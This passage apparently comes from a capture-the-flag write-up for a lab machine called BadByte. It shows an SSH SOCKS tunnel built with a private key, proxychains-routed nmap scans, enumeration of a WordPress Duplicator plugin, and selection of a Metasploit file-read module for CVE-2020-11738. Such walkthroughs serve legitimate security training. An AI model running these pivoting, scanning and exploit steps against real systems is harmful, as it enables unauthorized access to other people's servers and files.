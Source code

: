 **What main TCP ports are listening on localhost?**


```
chmod 600 id_rsa
ssh -i id_rsa -D 1337 errorcauser@10.10.1.35
```

```
nano /etc/proxychains.conf

socks5 127.0.0.1 1337
```

```
proxychains4 nmap -p 1-10000 -sV -sC  127.0.0.1
```

```
80,3306
```

What protocols are used for these ports?
```
http,mysql
```

#### Web Exploitation

What CMS is running on the machine?
```
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-generator: WordPress 5.7
|_http-title: BadByte &#8211; You&#039;re looking at me, but they are lookin...

wordpress
```
\
What is the CVE number for directory traversal vulnerability?
```
proxychains4 nmap -p 80 --script word-press-enum 127.0.0.1 

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-wordpress-enum: 
| Search limited to top 100 themes/plugins
|   plugins
|_    duplicator 1.3.26
|_http-server-header: Apache/2.4.29 (Ubuntu)

msf> search duplicator
msf> use auxiliary/scanner/http/wp_duplicator_file_read
msf> info

CVE-2020-11738


```

